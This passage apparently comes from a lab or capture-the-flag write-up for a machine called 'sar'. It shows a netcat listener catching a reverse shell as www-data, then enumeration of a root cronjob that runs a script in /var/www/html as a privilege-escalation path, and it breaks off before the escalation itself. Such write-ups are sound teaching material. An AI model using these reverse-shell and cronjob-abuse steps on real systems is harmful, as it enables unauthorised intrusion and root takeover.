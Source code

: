 ### catch connection from target
```bash
$ nc -lvp 80             
listening on [any] 80 ...
192.168.173.35: inverse host lookup failed: Unknown host
connect to [192.168.49.173] from (UNKNOWN) [192.168.173.35] 36990
bash: cannot set terminal process group (1046): Inappropriate ioctl for device
bash: no job control in this shell
www-data@sar:/var/www/html/sar2HTML$ whoami
whoami
www-data
```

## privilege escalation
### `crontab` exposes a `cronjob` executed by `root`
```bash
$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
```

### content of `/var/www/html/finally.sh`
```bash
www-data@sar:/var/www/html/sar2HTML$ cat /var/www/html/finally.sh
cat /var/www/html/finally.sh
#!/bin/sh

./write.sh
```

### permissions of `/var/www/html/finally.sh`
```bash
www-data@sar:/var/www/html/sar2HTML$ ls -lsah /var/www/html/finally.sh
ls -lsah /var/www/html/finally.sh
4.0K -rwxr-xr-x 1 root root 22 Oct 20  2019 /var/www/html/finally.sh
```
